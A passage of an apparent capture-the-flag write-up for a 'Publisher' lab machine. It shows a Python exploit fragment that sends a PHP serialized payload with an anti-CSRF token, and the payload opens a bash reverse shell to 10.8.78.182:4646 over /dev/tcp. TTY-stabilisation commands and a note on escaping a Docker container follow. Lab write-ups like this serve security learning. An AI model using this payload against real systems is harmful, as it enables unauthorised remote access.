 ```python

    csrf = get_anticsrf(options.url)
    if not csrf:
        exit(1)

    php_payload = f'<?php system("bash -c \'exec bash -i &>/dev/tcp/10.8.78.182/4646 <&1\'"); ?>'
    serialized = f's:{len(php_payload)}:"{php_payload}";'

    if options.verbose:
        print(f"[+] Final serialized payload: {serialized}")

    send_payload(options.url, csrf, serialized)
```

Now, let's try to get a reverse shell and get access to the machine.

![](/assets/images/thm-publisher/reverse_shell.png)

<br>
# Post-Exploitation
----------

### tty treatment
-----------
```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 185
```

Now, if you look at the IP of the machine, you'll see that we are in a **Docker container** inside the Publisher machine. We need to get out of it.
